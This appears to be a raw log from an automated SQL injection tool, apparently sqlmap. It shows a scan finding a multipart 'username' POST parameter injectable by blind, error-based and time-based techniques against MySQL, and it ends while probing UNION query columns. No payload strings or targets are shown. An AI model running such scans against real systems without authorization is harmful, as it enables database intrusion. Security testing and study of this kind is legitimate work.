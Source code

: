 ```sql
[04:17:30] [INFO] flushing session file                                                                                                   
[04:17:30] [INFO] testing connection to the target URL                                                                                    
[04:17:30] [INFO] checking if the target is protected by some kind of WAF/IPS                                                             
[04:17:30] [INFO] testing if the target URL content is stable                                                                             
[04:17:31] [INFO] target URL content is stable                                                                                            
[04:17:31] [INFO] heuristic (basic) test shows that (custom) POST parameter 'MULTIPART username' might be injectable (possible DBMS: 'MySQL')                                                          
[04:17:31] [INFO] heuristic (XSS) test shows that (custom) POST parameter 'MULTIPART username' might be vulnerable to cross-site scripting (XSS) attacks                                               
[04:17:31] [INFO] testing for SQL injection on (custom) POST parameter 'MULTIPART username'                                               
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y                          
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (3) value? [Y/n] Y                         
[04:17:31] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'                                                              
[04:17:32] [WARNING] reflective value(s) found and filtering out                                                                          
[04:17:36] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'                                                              
[04:17:41] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'                                                         
[04:17:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'                                         
[04:17:46] [INFO] (custom) POST parameter 'MULTIPART username' appears to be 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)' injectable (with --not-string="row")              
[04:17:46] [INFO] testing 'Generic inline queries'                                                                                        
[04:17:46] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'                   
[04:17:46] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[04:17:47] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[04:17:47] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[04:17:47] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[04:17:47] [INFO] (custom) POST parameter 'MULTIPART username' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable 
[04:17:47] [INFO] testing 'MySQL inline queries'
[04:17:47] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[04:17:47] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[04:17:47] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[04:17:47] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[04:17:47] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[04:17:48] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[04:17:48] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[04:17:58] [INFO] (custom) POST parameter 'MULTIPART username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[04:17:58] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[04:17:58] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[04:17:59] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injecti
on technique test
[04:17:59] [INFO] target URL appears to have 6 columns in query
```